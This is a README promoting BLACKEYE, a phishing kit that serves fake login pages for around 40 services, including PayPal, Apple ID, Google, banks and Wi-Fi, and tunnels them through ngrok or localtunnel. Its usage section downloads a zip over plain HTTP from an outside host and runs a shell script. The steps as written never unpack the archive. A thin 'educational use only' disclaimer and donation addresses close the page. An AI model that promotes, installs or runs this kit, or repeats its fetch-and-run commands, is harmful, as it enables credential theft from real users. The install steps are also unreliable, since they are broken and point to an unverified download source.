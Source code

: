 ## BLACKEYE v2.0 (Big update, in a month 23:08:2024 | New: bank template, and update afterwards, Add localhost, and more)
##### The tool is completely free now 

-----------------------------------------------------------------------------------------------------------------------------
![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bkev3.png)

23:08:2024  Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bankofa.png)

### UPDATES :
##### UPDATES_TMP websites :          

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Line           [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Reddit         
          [07] Origin         [23] MySpace        [39] StackOverflow         
          [08] Yahoo          [24] Badoo          [40] Custom         
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Tiktok      
          
##### Add:  Localtunnel
##### Update: Ngrok 
###   Contact me on Instagram : @EricksonHolding or on responded.erickson.elite

-----------------------------------------------------------------------------------------------------------------------------
### Coded/Upgraded by: @EricksonAtHome (https://github.com/EricksonAtHome/blackeye)

#### Credits (Copyright)
#### Phishing Pages generated by An0nUD4Y (https://github.com/An0nUD4Y):

#### Description
BLACKEYE is an upgrade from original ShellPhish Tool (https://shellphish.net) by thelinuxchoice under GNU LICENSE. It is the most complete Phishing Tool,  with 32 templates +1 customizable

## Legal disclaimer:
Usage of BlackEye for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

### Usage:
```
curl -O http://dsvr.blackeye.cloud/alld/blackeye.zip
cd blackeye
bash blackeye.sh
```
### Usage PowerShell:
```
Invoke-WebRequest -Uri http://dsvr.blackeye.cloud/alld/blackeye.zip -OutFile blackeye.zip
cd blackeye
bash blackeye.sh
```

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/hiws.png)

23:08:2024  Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/scr22.png)

### Donate! @EricksonHolding
Donate And Support:
-----------------------------------------------------------------------------------------------------------------------------
BTC: 3EUgv8me3wDLLQ5rPRGKfdkkoXD4fozLHu
-----------------------------------------------------------------------------------------------------------------------------
LTC: MPgfYyVWqnUHFPhFRjETAAgfMHgKdaEFP1
-----------------------------------------------------------------------------------------------------------------------------

